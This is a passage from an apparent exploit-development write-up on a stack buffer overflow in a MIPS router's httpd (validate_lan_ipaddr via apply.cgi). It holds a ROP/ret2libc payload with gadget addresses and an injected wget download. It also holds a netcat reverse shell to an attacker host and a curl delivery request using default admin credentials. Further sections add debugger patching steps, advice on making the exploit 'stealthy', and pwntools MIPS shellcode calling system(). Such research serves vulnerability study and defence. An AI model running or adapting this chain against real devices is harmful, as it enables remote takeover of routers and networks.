python3 -c 'import sys; sys.stdout.buffer.write(b"A"*74 + b"\xa0\x1e\xd6\x2a" + b"A"*24 + b"\x44\xa0\xd6\x2a" + b"A"*72 + b"\xfc\xd8\xd4\x2a" + b"A"*28 + b"wget -O /tmp/busybox-mipsel http://<attacker_ip>:7777/busybox-mipsel %0a chmod 755 /tmp/busybox-mipsel %0a /tmp/busybox-mipsel nc <attacker_ip> 6666 -e /bin/sh")'
```


{% code title="URL-encode spaces (%20)" overflow="wrap" %}
```shellscript
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*74 + b"\xa0\x1e\xd6\x2a" + b"A"*24 + b"\x44\xa0\xd6\x2a" + b"A"*72 + b"\xfc\xd8\xd4\x2a" + b"A"*28 + b"wget%20-O%20/tmp/busybox-mipsel%20http://<attacker_ip>:7777/busybox-mipsel%0achmod%20755%20/tmp/busybox-mipsel%0a/tmp/busybox-mipsel%20nc%20<attacker_ip>%206666%20-e%20/bin/sh")'
```


**cURL**


```shellscript
curl -X POST http://192.168.1.1/apply.cgi \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Authorization: Basic YWRtaW46YWRtaW4=" \
--data "action=Apply&lan_ipaddr=4&lan_ipaddr_0=a&lan_ipaddr_1=b&lan_ipaddr_2=c&lan_ipaddr_3=$(<python_payload>)&lan_netmask=x" \
-v
```


**Breakpoint analysis at respective locations**

We will attempt to set breakpoints at specified locations, to aid us in the analysis of relevant portions of the stack and to verify the flow of the exploit:

1. Return line in **validate\_lan\_ipaddr** (`0x428614`)

* address in `ra` -> `0x2ad6a044` (gadget 1)
* address in `s0` -> `0x2ad61ea0`  (system)
* Instructions at each of the gadget addresses should be what we expect&#x20;
* address in `$sp+72` -> gadget 2 (`0x2ad4d8fc`)

```shellscript
$ printf '\x0d\x00\x00\x00' | dd of=/tmp/httpd bs=1 seek=$((0x00028614)) conv=notrunc
```


2. Start of **system** function (`0x2ad61ea0`)

* address in `$sp+80+24` -> string argument to **system** function
* string value in `$a0` -> shell command to execute

Recall that the **system** offset address from **libc** bas is **`0x29ea0`**.

```shellscript
$ printf '\x0d\x00\x00\x00' | dd of=/tmp/httpd bs=1 seek=$((0x00029ea0)) conv=notrunc
```

**Set breakpoint in `libc`**&#x20;

Remember that the system function is found within the libc library. Thus, we have to patch the break instructions in `/lib/libc.so.0` itself, and update the `httpd` binary to use it:

```shellscript
# 1. Create temporary copy of libc.so.0
$ cp /lib/libc.so.0 /tmp/libc.so.0

# 2. Patch libc
$ printf '\x0d\x00\x00\x00' | dd of=/tmp/libc.so.0 bs=1 seek=$((0xXXXXXXXX)) conv=notrunc

# 3. Update "httpd" binary to use new directoty (rpath), where the libc.so.0 library is
$ patchelf --set-rpath /tmp/ /path/to/httpd
```

Next, we have to update the library path:


```console
# LD_LIBRARY_PATH=/tmp <path_to_httpd>
```



...

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


**Additional steps to make the exploit more "stealthy"**

Notice that our current exploit will crash the `httpd` web server. This is because the final `system` function that is called in our ROP+ret2libc chain attempts to load a memory address value from a certain offset from the stack to update the **ra** register, and subsequently execute the instructions at the memory address

However, this address is likely to be a padding value used in our payload (bunch of **A**s), which will trigger a **SIGSEGV** (Segmentation Fault), and simply crash

To better understand this, lets take a look at the last few instructions in the `system` (**0x2ad61ea0**) function:

```mipsasm
0x2ad620c0 <+544>:	lw	ra,64(sp)
0x2ad620c4 <+548>:	lw	s5,60(sp)
0x2ad620c8 <+552>:	lw	s4,56(sp)
0x2ad620cc <+556>:	lw	s3,52(sp)
0x2ad620d0 <+560>:	lw	s2,48(sp)
0x2ad620d4 <+564>:	lw	s1,44(sp)
0x2ad620d8 <+568>:	lw	s0,40(sp)
0x2ad620dc <+572>:	jr	ra
```

We can ignore the rest of the `lw` instructions that loads to the other registers, and focus on the following 2 lines:

```mipsasm
0x2ad620c0 <+544>:	lw	ra,64(sp)
...
0x2ad620dc <+572>:	jr	ra
```

We now know that the relative stack offset of **64** (0x40) is used to load the `ra` register, which is subsequently used in the jump instruction


...

## 7.  Exploit development (METHOD 2: JOP/ROP to shell-code)

### 7.1 Understanding payload layout on the stack

<figure><figcaption></figcaption></figure>

...

### 7.2 Building the exploit

#### **7.2.1 Custom "ping" code**


```python
from pwn import *

context.arch = 'mips'
context.endian = 'little'

# replace with actual address of "system" function (libc base + offset)
LIBC_SYSTEM_ADDR = 0xAAAAAAAA  

ping_addr = "xxxx.xxxx.xxxx.xxxx" 
ping_count = 3
cmd = f"ping -c {ping_count} {ping_addr}"

shellcode = asm(f'''
    .set noreorder

    # ---- 
    # STEP 1
    # ---- 
    # 1. $ra -> first line of "exec_system"
    # 2. jump to "exec_system"
    
    bal exec_system
    nop

exec_system:
    # ---- 
    # STEP 2
    # ---- 
    # 1. add offset from first line of "exec_system" to the first line of "string_data", into the $a0 register
    
    addiu $a0, $ra, (string_data - exec_system)

    # ---- 
    # STEP 3
    # ---- 
    # 1. Standard system() call setup
    
    lui   $t9, {LIBC_SYSTEM_ADDR >> 16}
    ori   $t9, $t9, {LIBC_SYSTEM_ADDR & 0xffff}
    
    # ---- 
    # STEP 4
    # ---- 
    1. jump to system function, with string argument stored in $a0
    2. but we don't need to return (handled by system function)
    
    jalr  $t9
    nop
    
    # load address of instruction to return to from the original vulnerable function
    li $ra, 0xXXXXX
    jr $ra
    nop

    .align 2
string_data:
    .asciz "{cmd}"
''')

print(pingcode.hex())
```


#### **7.2.2 Explanation of the custom "ping" code**:

1. `.set noreoder`&#x20;

* ...


**Possible issues to look out for**&#x20;

1. **Encoding**: certain instructions may contain characters that may signify a null byte or similar type of byte that terminates the string early

* eg. `.asciz`, `nop`, etc.
* in the case of the `strcat` function, this may cause the final payload to be truncated when written to the stack


2. **Cache incoherency**

[https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Buffer%20Overflows%20on%20MIPS%20Architectures%20-%20Lyon%20Yang.pdf](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Buffer%20Overflows%20on%20MIPS%20Architectures%20-%20Lyon%20Yang.pdf)

There exists 2 different caches, namely the Instruction Cache (I-Cache) and Data Cache (D-Cache), that stores instructions and data respectively. This may cause mismatches between data written by us to the stack (subsequently stored to the cache), and the instruction we want the CPU to execute

Thus, when the CPU attempts to access the shellcode instructions at the specified memory addresses from the I-Cache, it may retrieve "stale" data (old data from stack frames of previous function calls) which may cause a crash when executed


**2.1 Overview of I-Cache and D-Cache**:

**I-Cache**: Dynamic buffer of whatever value (from a particular memory address) that the CPU was recently told to execute

* It operates on the assumption that code is static and does not monitor memory writes

**D-Cache**: Dynamic buffer of what have been written and retrieved from the stack

* this is where the buffer overflow payload (shellcode) initially resides after being written to the stack


**2.2 Overview of steps to defeat "cache incoherency" issues**

**Let's assume that that the "write-back" cache policy is used**:&#x20;

* data is written only to the D-Cache and marked as "dirty"
* it only reaches the RAM (actual stack memory) when the cache line is evicted or manually flushed


**Possible scenario**:

1. I-Cache currently stores the instruction of the **httpd** binary that was loaded at the start of the execution
2. Execute `sleep()` function

* A few context switches will happen during the sleep period

3. When the OS switches away from the `httpd` process to another process, the current data needs to be saved:

* the kernel may perform a D-Cache clean, which takes all the "dirty" line on the D-Cache (including shellcode) and pushes them to the physical RAM

4. When the OS switches back to the `httpd` process, the I-Cache will need to be invalidated (to prevent leak of instructions between processes)

* &#x20;the I-Cache will be marked as invalid

5. When the PC attempts to execute the shellcode (final portion of the ROP chain), the CPU will look in the I-Cache

* an I-Cache miss will happen, since it was previously marked as invalid
* the CPU will look for the required instructions from the physical RAM, which will pull our shellcode into the I-Cache


